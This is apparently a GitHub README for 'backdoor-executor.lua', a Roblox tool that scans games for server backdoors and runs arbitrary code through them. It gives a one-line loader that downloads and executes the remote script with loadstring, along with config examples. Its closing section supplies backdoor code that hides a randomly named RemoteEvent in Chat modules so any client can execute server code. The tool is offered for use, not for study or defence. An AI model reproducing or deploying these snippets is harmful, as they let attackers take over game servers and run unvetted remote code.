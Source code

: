 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe).

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing them within a gui.
### Requirements
- A non skiddy brain that needs help for dumb reason
- Decent executor that supports filesystem functions (for config)
### Script
Just use the script below and execute it.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Config Help
- My config has been gone back to original
> The config will reset to the original config if the configVer is lower than the original config
- Adding Cache Example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using AutoExecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table
```lua
["autoExec"] = {
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for copying this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(1e10,1e10))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```

